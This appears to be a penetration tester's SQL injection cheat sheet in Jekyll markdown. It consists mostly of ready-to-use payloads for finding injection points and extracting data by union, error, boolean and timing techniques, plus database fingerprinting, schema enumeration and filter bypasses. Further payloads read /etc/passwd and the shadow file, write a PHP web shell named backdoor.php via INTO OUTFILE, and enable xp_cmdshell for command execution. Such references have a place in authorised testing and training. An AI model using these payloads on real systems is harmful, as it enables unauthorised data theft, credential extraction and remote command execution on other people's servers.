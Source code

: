 ```yaml
---
title: SQL Injection
category: Web Application
order: 5
---
```


> **SQL Injection: Test Location and Strings**

**Pull usernames and passwords if successful**

**Test Locations:**
* GET URL query parameters
* POST parameters
* Cookie (session information)
* User-Agent

**Visable Test Strings:**
{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

**Methodology***

1. Determine injection point and how to break out:

{% highlight sql %}

SELECT info From users WHERE id = [UserInput]
SELECT info From users WHERE id = ' [UserInput] '
SELECT info From users WHERE id = " [UserInput] "
SELECT info From users WHERE (type='admin' AND id = [UserInput])

{% endhighlight %}

2. Use test strings like:

{% highlight sql %}

SELECT info From users WHERE id = 1
SELECT info From users WHERE id = -9999
SELECT info From users WHERE id = 1 AND 1=1
SELECT info From users WHERE id = 1 AND 'a'='a
SELECT info From users WHERE id = 1 AND 1=2
{% endhighlight %}

3. Exfiltration:

{% highlight sql %}
MySQL: 0 Union SELECT 'data' LIMIT [offset], [rows]
MSSQL: 0 UNION SELECT TOP [r] 'data' WHERE data_column not in (SELECT TOP [offset] 'data')
{% endhighlight %}

4. Error Based Exfiltration:

{% highlight sql %}
MYSQL: 1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT '[data]'), FLOOR(RAND(0)*2)) x from users group by x) a)
MSSQL: 1 and 1=convert(int, (SELECT '[data]'))
{% endhighlight %}

4. Boolean Based Exfiltration:

{% highlight sql %}
--Known data
if (((SELECT 'data') = 'password'), 1, 0)

--Binary Search Tree
MySQL: 1 AND ASCII(MID((SELECT 'data'),[c],1))>79
MSSSQL: 1 AND ASCII(SUBSTRING((SELECT 'data'),[c],1))>79

{% endhighlight %}

5. Timing based QUERY:

{% highlight sql %}
MySQL: IF ([condition], SLEEP([s]), 0)
MSSQL: 1 IF ([condition]) WAITFOR DELAY '0:0:[s]'
{% endhighlight %}

6. Side Channel

* Use file /OS operations to write to web root
* Write output to Samba file share

**Blind Test Strings:**

*Try the following to see if it provides valid results for text that was interpreted:*

Commenting out the end | <code> Brent' ;# <br> Dent' ;-- <br> Dent' ;-- - </code>
Commenting with semicolon | <code> Brent' or 29=29; # <br> Dent' or 29=29;-- <br> Dent' or 29=29;-- - </code>
Commenting without semicolon | <code> Brent' or 1=1 # <br> Dent' or 1=1-- <br> Dent' or 1=1-- - </code>
Inline Commenting | <code> Bre'/* */'nt </code>
Concatenation | <code> De''nt <br> De'||'nt </code>
Binary/Boolean | <code> Dent' and 1;# <br> Dent' and 1=1;# <br> Dent' and 0;# <br> Dent' and 1=0;# </code>
Sleep MySQL | <code> Sleep(10) </code>
Sleep MySQL2 | <code> id=1-sleep(10)  </code>
Sleep MySQL3 | <code> and (select Sleep(10) =0) </code>
Sleep MSSQL | <code> WAITFOR DELAY '0:0:10'  MSSQL </code> 

Math | <code> id=1-0 </code>


Determine the level of blindness:
{% highlight sql %}
Dent' AND 1;#
Dent' AND 1=1;#

Dent' AND 0;#
Dent' AND 1=0;#
#Look for differences
{% endhighlight %}

> **Online Tool to test syntax***

* [sqlfiddle](http://sqlfiddle.com/#!9/a6c585/51364)

> **SQL Injection: Database Identification**

MS SQL Server | Incorrect syntax near 'something'
MS SQL Server | <code> 'De'+'nt' </code>
MS SQL Server | <code> SELECT @@version  </code>
MS SQL Server | <code> @@pack_received </code>
MySQL | 'De' 'nt'
MySQL | <code> SELECT @@version  </code>
MySQL | <code> connection_id() </code>
Oracle | ORA-01756: quoted string not properly terminated
Oracle | <code> 'De'||'nt' </code>
Oracle | <code> BITAND(1,1) </code>
PostgreSQL | 5-digit Hex Error Code

> **SQL Injection: Database, Table, and Columns**

**MySQL:**

Database | schema_name FROM information_schema.schemata 
Table | table_name FROM information_schema.tables
Table from DB | table_name FROM information_schema.tables where table_schema='your_database_name'
Columns | column_name From information_schema.columns where table_name='users'

**SQL Server:**

Database | name FROM sys.databases 
Table | name FROM sys.tables 
Columns | name FROM sys.coumns

**Oracle DB:**

Database | owner FROM all_tables 
Table | table_name FROM all_tables 
Columns | column_name FROM all_tab_columns

> **SQL Injection Filter Bypass**

UTF-16 URL encoding for select and union:
%u0055Nion %u0053elect

Spaces:
union/**/select

Escaping Escapted Quotes (Single and Double):
{% highlight sql %}
313372, pd_description = (select schema_name FROM information_schema.schemata limit 1,1 union select LOAD_FILE(0x002F6574632F736861646F77) INTO outfile QUOTE(test.txt) limit 1,1), pd_description=QUOTE(1)
{% endhighlight %}

> **SQL Injection Union**

1) Once you have identified SQL injection, use order by or UNION select to determine the number of columns:
{% highlight sql %}
dent' and 'a'='a' ORDER BY 1; #
...until it breaks
dent' and 'a'='a' ORDER BY 5; #

Dent' UNION SELECT  NULL; #
..until it works
Dent' UNION SELECT  NULL, NULL, NULL, NULL; #
{% endhighlight %}

2) See which columns (e.g., numbers) are visable and correct data type (e.g., String/varchar) in the output. 
{% highlight sql %}
Dent' UNION SELECT  'X3Y2Z1', NULL, NULL, NULL; #
...until it works and visable in source (search for X3Y2Z1)
Dent' UNION SELECT  NULL, NULL, NULL, 'X3Y2Z1'; #
{% endhighlight %}

3) From the columns identified above, use one for the union. <br> *Note: It requires the same number of columns and compatable data type*
{% highlight sql %}
Dent' UNION SELECT  '1', '2', '3', info FROM information_schema.processlist; #
<br>
id=738 union select 1,2,3,null, table_name,5 FROM information_schema.tables where table_schema='webappdb';#
<br>
or use NULL since it is compatable with everything
<br>
Dent' UNION SELECT NULL, NULL, NULL;--
<b>
jeremy'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts;+--+
{% endhighlight %}

> **Blind SQL Injection Data Exfiltration**

Perform a binary search tree using substr: 

{% highlight sql %}
#Use
substr(([Query]),[Letter],[Word]) > "m"

substr((select table_name from information_schema.tables limit 1),1,1) > "m"
…
= "c"

{% endhighlight %}

> **Stacked Queries**

Allows multiple commands with a ';'  (Mostly MSSQL):
{% highlight sql %}
Dent' ;  CREATE TABLE exfil(data varchar(1000));-- 
{% endhighlight %}


> **Reading and Writing Files**

MySQL and MSSQL:
{% highlight sql %}
MySQL Reading:
Dent'+UNION+SELECT++'1'%2C+'2'%2C+'3'%2C+LOAD_FILE("%2Fetc%2Fpasswd")%3B+%23

MySQL Writing:
INTO OUTFILE 
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQL Server Reading: 
BULK INSERT
{% endhighlight %}

> **MSSQL Enable xp_cmdshell and exploit**

{% highlight sql %}
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
exec master..xp_cmdshell 'dir c:'; --
RECONFIGURE;

{% endhighlight %}



> **SQL Injection Cheat Sheets**

* [websec](https://websec.ca/kb/sql_injection)
* [PentestMonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [SQLInjection Wiki](http://www.sqlinjectionwiki.com)

